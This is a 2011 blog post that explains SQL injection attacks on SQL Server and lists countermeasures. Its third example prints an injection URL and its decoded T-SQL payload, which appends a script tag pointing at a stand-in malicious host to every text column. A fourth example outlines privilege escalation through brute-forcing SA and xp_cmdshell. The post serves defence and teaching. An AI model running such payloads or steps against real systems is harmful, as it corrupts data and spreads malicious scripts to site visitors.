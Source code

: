 ```yaml
---
layout: post
date:   2011-01-15
title:  "Protecting against SQL Injection attacks"
permalink: ./blog/index.php/2011/01/15/protecting-against-sql-injection-attacks/
tags: [T-SQL Programming, Security, SQL Injection, Security, Database Administration, Database Design, T-SQL Programming, Code Samples, Coding Practices, Development, SQL Server]
comments: false
---
```

In a nutshell, an SQL injection attack is one where malicious code is passed to an instance of SQL Server for parsing and execution through a vulnerable application.  Although most SQL injection attacks can come from the web (having a larger "target audience") even machines connected to an organisation's network can pose a potential threat to the entire infrastructure.  Moreover, the applications do not necessarily have to be web-based ones.

An SQL Injection attack performed through a website can be as simple as replacing an application's user input parameters (which an application developer would have failed to validate for values, length, data ranges, etc.) with malicious SQL code.  The resultant actions can vary from simple data manipulation to more complex escalation of privilege - see examples below.

--------------------

#### Example 1 - Unauthorised access ####

A malicious user can modify the input parameters of a form as shown in the below image to gain access to a system.

![Example 1 - Unauthorised access](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_unathorised_access.jpg)

--------------------

#### Example 2 - View unauthorised information ####

The below image shows how an authenticated system user can view unauthorised information using SQL injection techniques.

![Example 2 - View unauthorised information](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_unathorised_view.jpg)

--------------------

#### Example 3 - Altering data ####

Another SQL injection technique commonly used is the passing of HEX strings to the SQL Server DBMS through vulnerable applications.  Basically, a website URL which accepts an input parameter can be replaced by something similar to the below (abridged) sample:

``` text
.../orderitem.asp?IT=GM-204;DECLARE%20@S%20NVARCHAR(4000);SET%20@S=CAST(0x44004500...006F007200%20AS%20NVARCHAR(4000));EXEC(@S);--
```

Decoding that binary data which is cast to a varchar yields the following (formatted for readability purposes):

``` sql
DECLARE @T varchar(255), @C varchar(255)
DECLARE Table_Cursor FOR
    select a.name, b.name
    from sysobjects a, syscolumns b
    where a.id=b.id and a.xtype='u'
    and(b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T, @C
WHILE(@@FETCH_STATUS=0)
BEGIN
    EXEC(<'UPDATE [' + @T + '] SET [' + @C + '] = RTRIM(CONVERT(VARCHAR, [' + @C + '])) + ''&lt;script src="http://somebadsite.cn/badscript.js"&gt;&lt;/script&gt;''')
    FETCH NEXT FROM Table_Cursor INTO @T, @C
END
CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

The script finds all text columns in the database and updates them with URL's to other web sites.  This is only possible if the login which impersonates the website/application has permissions to modify the data in the database.

Her are some references with updated listings of malicious URLs:

* [ASCII Encoded Binary String Automated SQL Injection](http://www.bloombit.com/Articles/2008/05/ASCII-Encoded-Binary-String-Automated-SQL-Injection.aspx#attack-description)
* [SQL attacks inject government sites in US, UK](http://www.theregister.co.uk/2008/08/07/new_sql_attacks/)
* [Cleanup in isle 3 please. Asprox lying around](http://isc.sans.org/diary.html?storyid=4840)
* [Cyberattacks Now Target Governments](http://www.certmag.com/read.php?in=3812)

--------------------

#### Example 4 - Escalating privileges ####

So far the examples have focused on successful SQL injection attacks localised to the website's database.  A maliciously crafted SQL statement can, if the database, DBMS and service are not configured securely, gain access to the host machine and potentially access other machines on the infrastructure.  The following steps demonstrate one way this is achievable:

1. Scan the network to gain an understanding of the possible vulnerable SQL Server machine.
2. Perform a brute force attack against any SQL Servers identified to test for weak passwords on the 'SA' login.
3. Connect to one of the machines using the "cracked" credentials and, using the SQL Server extended stored procedure "xp_cmdshell", create a Windows account with Administrative privileges on the server.  This is possible if the SQL Server service account is running under one of the privileged built-in accounts or is a member of the Local Administrators.
4. Once administrative access is gained, using other tools, any Cached Credentials can be extracted from the machine.
5. The hacked-into machine can then be used to elevate the privileges to a Domain Administrator.

--------------------

#### Possible solutions and countermeasures ####

Countermeasures include (but are not limited to):

1. Write secure application code.
2. Test all website/application inputs for SQL injection vulnerabilities.
3. Implement the principle of least privilege at all layers of the solution (i.e. client, application, business, database, etc.).
4. Deploy websites/applications using separate accounts for reading and writing/updating data.
5. Use stored procedures to access data.
6. Do not build unchecked dynamic SQL strings.
7. Log user activity.
8. Periodically retest all website/application inputs for SQL injection vulnerabilities.
9. More...

SQL injection attacks can only be prevented by following best practices and employing secure programming techniques.  Ongoing monitoring, detection, and pro-active defensive methods should also be utilised within the various layers of any web application.

Finally, another two fine examples of SQL injection attacks:

![Beat the Speed Cameras](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_speed_camera.jpg)

![Bobby Tables](/assets/article_files/2011-01-15-protecting-against-sql-injection-attacks/sql_injection_bobby_tables.jpg)
